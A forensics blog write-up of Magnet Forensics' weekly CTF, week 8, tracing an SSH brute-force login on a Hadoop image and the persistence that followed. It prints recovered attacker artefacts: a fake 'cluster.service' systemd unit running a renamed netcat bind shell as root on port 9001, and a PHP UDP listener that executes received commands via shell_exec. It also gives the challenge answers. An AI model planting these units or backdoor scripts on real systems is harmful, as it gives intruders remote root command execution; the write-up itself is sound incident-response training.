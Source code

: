 ```yaml
---
layout: single
title: "Magnet CTF Week 8 - Persistence in plain sight"
date: '2020-12-01T01:00:00+09:00'

tags:
  - infosec
  - dfir
  - CTF
  - Magnet
modified_time: ""
---
```


Magnet Forensics is running a *weekly* forensic CTF. More information can be found on their [blog](https://www.magnetforensics.com/blog/magnet-weekly-ctf-challenge/). It is a fun way to practice, so let's get to it!

### CTF Posts

[Week 1](https://dfir.science/2020/10/Magnet-CTF-Week-1-Timestamps-of-doom.html) | [Week 2](https://dfir.science/2020/10/Magnet-CTF-Week-2-URLs-in-Pictures-in-Pictures.html) | [Week 3](https://dfir.science/2020/10/Magnet-CTF-Week-3-Failed-connections.html) | [Week 4](https://dfir.science/2020/11/Magnet-CTF-Week-4-GUIDSWAP-and-drop.html) | [Week 5](https://dfir.science/2020/11/Magnet-CTF-Week-5-HDFS.html) | [Week 6](https://dfir.science/2020/11/Magnet-CTF-Week-6-Riddle-ELF.html) | [Week 7](https://dfir.science/2020/11/Magnet-CTF-Week-7-Hadoop-Nodes.html)

### Getting Started

Download the images from [Archive.org](https://archive.org/details/Case2-HDFS).

Week 8 question is in two parts. Answering the first question releases the other questions.

> Part One: What package(s) were installed by the threat actor? Select the most correct answer!

For the last three weeks, we have been looking at - what we thought - was an average user setting up Hadoop. But right under our nose was a sneaky threat actor. For this question, there are two things we need to do:

* Differentiate the threat actor from the normal user
* Identify packages the threat actor installed

In a Linux system, I always run to /var/logs/ first. There are two logs I'm interested in: /var/log/apt/term.log and /var/log/auth.log. Auth shows login events. Maybe there is something suspicious there. apt/term shows the package manager install information - including the command.

Looking through the auth.log, we can see around Oct 7 at 00:40; someone is trying to brute force SSH logins from 192.168.2.129. This isn't uncommon on Linux systems connected to the Internet, but 192.168.x.x is a local IP - whoops!

```bash
Oct  7 00:42:44 master sshd[2055]: Failed password for root from 
192.168.2.129 port 56194 ssh2
Oct  7 00:42:44 master sshd[2055]: Received disconnect from 
192.168.2.129 port 56194:11: Bye Bye [preauth]
Oct  7 00:42:44 master sshd[2055]: Disconnected from 
192.168.2.129 port 56194 [preauth]
Oct  7 00:42:44 master sshd[2055]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=
192.168.2.129  user=root
Oct  7 00:42:44 master sshd[2105]: Accepted password for hadoop from 
192.168.2.129 port 56246 ssh2
Oct  7 00:42:44 master sshd[2105]: pam_unix(sshd:session): session opened for user hadoop by (uid=0)
Oct  7 00:42:44 master systemd-logind[871]: New session 5 of user hadoop.
Oct  7 00:42:44 master sshd[2075]: Failed password for invalid user magnos from 
192.168.2.129 port 56204 ssh2
Oct  7 00:42:44 master sshd[2075]: Received disconnect from 
192.168.2.129 port 56204:11: Bye Bye [preauth]
Oct  7 00:42:44 master sshd[2075]: Disconnected from 
192.168.2.129 port 56204 [preauth]
```

Even worse, ```sshd[2105]``` was a successful login. If we look a bit later, we can see the following:

```bash
Oct  7 01:23:48 master sshd[2410]: Accepted password for hadoop from 
192.168.2.129 port 56406 ssh2
Oct  7 01:23:48 master sshd[2410]: pam_unix(sshd:session): session opened for user hadoop by (uid=0)
Oct  7 01:23:48 master systemd-logind[871]: New session 8 of user hadoop.
<!--snip-->
Oct  7 01:48:20 master sshd[2440]: Received disconnect from 
192.168.2.129 port 56406:11: disconnected by user
Oct  7 01:48:20 master sshd[2440]: Disconnected from 
192.168.2.129 port 56406
Oct  7 01:48:20 master sshd[2410]: pam_unix(sshd:session): session closed for user hadoop
Oct  7 01:48:20 master systemd-logind[871]: Removed session 8.
```

Now we have a time-frame for suspect activities - Oct 7 from 01:23:48 to 01:48:20 (local time). Twenty-five minutes on SSH is enough time to get up to some badness.

With our time-span in mind, let's jump over to the apt logs. Looking at /var/log/apt/history.log we have one package installed in the expected time-frame.

```bash
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.
<!--snip-->
End-Date: 2019-10-07  01:30:41
```

Trying "php", and **BING!** Success.

> Part Two: Why? (was the package installed) - options below:
* hosting a database
* serving a webpage
* to run a php webshell
* create a fake systemd service

Our first multiple-choice question! There are interesting because each option is essentially a hypothesis.

What we are interested in is what happened around the time the suspect was logged in? For that, I always love *timeline analysis*.

I decided to load the case up in Autopsy, which has a useful timeline tool. Timestamps in log files are based on the local clock setting at the time the log was written. However, I usually make Autopsy display UTC since I'm unsure what timezone this system was in.

I can calculate the offset since I know that PHP was installed on the 7th at 01:30. PHP7.0 was installed on Oct 6 at 22:30 UTC. That means that the time zone for the system must be UTC+3. When looking at the file-system meta-data in Autopsy, we are especially interested in Oct 6 22:23 to 22:49.

I'm also (initially) going to be interested in files created around that time. Modified will also be important, but I'll start with created to see what pops. Starting from Oct 6 at 01:30, we see PHP being installed with apt. Almost 60 seconds later, a systemd file was created named "cluster.service". Installing PHP does not install a cluster, so I'll mark that down as weird.

![Timeline view in Autopsy](/assets/images/posts/2020-Autopsy-timeline-mwctf8.jpg)

If we explore the timeline from 22:30 to 22:39 only a few files are created, but they are nasty. At 22:34 we have some instances of netcat (nc) being installed. 22:37 netcat is successfully created as /usr/bin/master. At 22:38 we have another cluster.service created in systemd, this time executing netcat (as master).

```bash
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/master -lvp 9001 -e /bin/bash

[Install]
WantedBy=multi-user.target
```

We also have .viminfo file created with a list of suspects, haha! This file does include evidence many file edits, including /etc/sytemd/system/cluster.service.

```bash
    ###         4. Mariam Khader.                                               ### 
"3  LINE    0
    ###         3. Israa Alshamari,                                             ###
"4  LINE    0
    ###         2. Ghazi Al-Naymat,                                             ### 
"5  LINE    0
    ###         1. Ali Hadi,                                                    ###
"6  LINE    0
    ###     Team Members from PSUT:
```

Going back a bit, I checked all times around when the suspect could have been in the system. Looking at 22:28 we see an /etc/network/interfaces~ file created. Also a bit suspicious. Taking a look, we see:

```bash
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

These contents are also found in systemd and ssl/certs. The suspect is trying to get persistence. Netcat was interesting, but it didn't quite answer the question of why the suspect installed PHP. Execstart is trying to execute "cluster.php". Let's take a look:

```bash
<?php
error_reporting(0);
$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;
        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
else {  exit;   }
```

Here is a PHP script setting up a socket on port 17001 - listening for a connection. PHP will use shell_exec to run the command locally and send the output back through the socket based on the commands received. In other words, run local commands from a remote system. Netcat does the same thing.

So, why was PHP installed? Honestly, I thought the closest right answer was to "run a PHP webshell," but that was incorrect. The next best answer was to "create a fake systemd service". **BING!** Success.

I saw no evidence of a database or a web page. To make sure, I checked the php.ini configs and whether /var/www existed (it didn't).

### Lessons learned

For most of the CTF, I've been using command-line tools or new-to-me tools that I wanted to play with. This week, I went back to Autopsy and visualized timelines. I (re)learned that a good timeline visualization with a supported suspect time range could save a lot of time. In this case, I was able to get a good time-range with auth.log. Zooming the timeline to that range pretty much tells the whole story.